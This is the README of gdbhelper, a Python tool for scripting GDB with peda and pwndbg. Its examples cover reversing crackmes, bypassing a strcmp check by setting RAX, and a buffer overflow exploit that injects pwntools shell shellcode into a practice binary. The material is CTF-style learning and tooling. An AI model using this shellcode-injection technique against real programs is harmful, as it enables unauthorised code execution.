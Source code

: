 # gdbhelper
gdbhelper is a lightweight helper class to instrument GDB using Python. It also has minimum support for [peda](https://github.com/longld/peda)
commands and experimental support for [pwndbg](https://github.com/zachriggle/pwndbg).

The reason why I didn't just develop a GDB script is that I was really too lazy to learn the API. Plus I wanted to have
a very simple tool that could "keep" my previous debugging configuration without having to re-set it all. If you're
looking for that too, that's where that tool comes in handy!

## Installation
You can either use it in place or install it with setuptools like this:
```bash
$ sudo python setup.py install
```
If you want to modify it while still using it system-wide, you can use this:
```bash
$ sudo python setup.py develop
```
As the script uses [pwntools](https://github.com/Gallopsled/pwntools)'s "process" to launch GDB in a subprocess with an
interactive shell, you should define aliases accordingly. Here are mine:
```bash
alias pwndbg='echo "source ~/security/pwndbg/gdbinit.py" > ~/.gdbinit && /usr/bin/gdb'
alias peda='echo "source ~/security/peda/peda.py" > ~/.gdbinit && /usr/bin/gdb'
alias gdb='echo "" > ~/.gdbinit && /usr/bin/gdb'
```
This way, when you'll use Peda it will be able to launch it from anywhere on your system.

## Basics
Let's begin by using "crackme1" (32b). After an incredibly hard analysis we saw that `0x8048545` seems interesting
(`strcmp`) so we'll launch our program and break there to see what's going on.
```python
# coding=utf-8


from gdbhelper import Gdb


debug = Gdb("./crackme1")  # (1)
debug.bp("*0x8048545")  # (2)
debug.r("blurp", prompt=True)  # (3)
value = debug.reg("esp")[1]  # (4)
print(debug.x(value, "s"))  # (5)

```
1. We load the binary in GDB (it's not being run yet)
2. We set our breakpoint
3. We run the binary with its argument and inform gdbhelper that we wait for the GDB prompt (because of the BP) before
returning a result
4. We ask for the value of `ESP` (which is the 1st argument of `strcmp`)
5. We print it's value and voilà!

Let's now try with the "crackme2" (64b). After a quick analysis, we've come to that script (which is a nonsense but
that for the sake of the example):
```python
# coding=utf-8


from gdbhelper import Pwndbg


debug = Pwndbg("./crackme2", until="plz! \n")  # (1)
debug.bp("*0x40073f")  # (2)
debug.r()
debug.e("blabla", prompt=True)  # (3)
debug.i()  # (4)
debug.c()  # (5)
r = debug.e("niark", skipbp=True)  # (6) (will also print the debug info)
if "Password" in r:  # (7)
    debug.e("plop", prompt=True)
    debug.ni()  # (8)
    debug.set("$rax", "0")
    debug.c(until="Flag is: ")  # (9)
    print(debug.recv(prompt=True))  # (10)

```
1. This crackme waits for an input on `STDIN` so we tell gdbhelper that, before returning from every `recv`, it needs to
find the string `"plz !\n"`
2. We set our BP and run the program
3. We send our first output, `"blabla"`, and wait for Pwndbg's prompt (due to BP), with the `execute` method (`e` is
simply a short name)
4. As we want to perform multiple operations at that BP, we ask gdbhelper to open an interactive shell (which we quit
either with `^C` or `^D`) with the `interactive` method (`i` is simply a short name)
5. We continue the execution of the program
6. We send our second input (from the script but maybe we did a lot during the interactive session) and tell gdbhelper
to not stop the execution when meeting a BP and to wait for the usual `until` string; This has for effect to stack the
output, meaning that the `r` variable contains all output/debug info since we sent our input
7. If we find the string `"Password"` in `r`, that means we're still not finished (damn! That's hard!)
8. After sending our third input and stopping at the `strcmp` again, we're pissed and just decide to screw up the
crackme by simple stepping and setting `RAX` to `0` to bypass the comparison
9. We now wait for a new string, `"Flag is: "`, to return instead of the usual `"plz! \n"`
10. We print the flag (I don't think that's the good one though)

Let's try to exploit a program now with "exploit1" (32b). No explanation on how to exploit a basic BoF, just how to do
it with gdbhelper almost automatically.
```python
# coding=utf-8


from pwn import *
from gdbhelper import Peda


debug = Peda("./exploit1")
pattern = debug.pattern_create(268)  # (1)
debug.bp("*0x8048488")
debug.r(pattern, prompt=True)
buff = p32(int(debug.reg("esp")[1], 16))
debug.dis(1)  # (2)
debug.c(prompt=True)
offset = debug.pattern_offset(debug.reg("eip")[0][1:].decode("hex")[::-1])  # (3)
bug = "A" * offset + "B"*4 + "C"*(268 - offset - 4)
shellcode = asm(shellcraft.sh())
nop = asm(shellcraft.i386.nop())*(offset - len(shellcode))
bug = shellcode + nop + buff + "C"*(268 - offset - 4)
debug.hb("*%s" % hex(u32(buff)))  # (4)
debug.r("'%s'" % bug, prompt=True)  # (5)
debug.i()  # (6)

```
1. We create a pattern using Peda's `pattern_create` command then we launch the program, get our buffer's address
2. We disable the breakpoint, it won't be needed anymore and continue the execution until a segmentation fault occurs
3. We check the offset of `EIP` using Peda's `pattern_offset` command and then construct our exploit string using Pwntools
4. We set a hardware BP on the address of our buffer to break on our shellcode
5. We relaunch the program with our shellcode and wait for the HB to trigger
6. We use the interactive console to step into the shellcode and watch everything's going well!

You can obviously use all `gdbhelper.Gdb` methods from `gdbhelper.Peda` or `gdbhelper.Pwndbg`. I invite you to discover
all available methods of those three classes with their arguments by yourself. You'll see, the `gdbhelper.Gdb.sigint`
method is incredibly useful sometimes!